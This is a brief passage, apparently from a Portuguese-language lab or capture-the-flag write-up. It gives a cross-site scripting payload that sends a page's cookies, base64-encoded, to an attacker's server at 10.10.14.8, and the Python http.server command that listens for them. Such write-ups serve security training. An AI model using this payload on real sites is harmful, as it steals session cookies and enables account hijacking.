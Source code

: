 
```js
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```
Aqui criamos um novo objeto de imagem, e alteramos sua **URL** para o nosso servidor python, e passamos como parâmetro **GET** os cookies da aplicação em **base64**.

```bash
python3 -m http.server -m 80
```
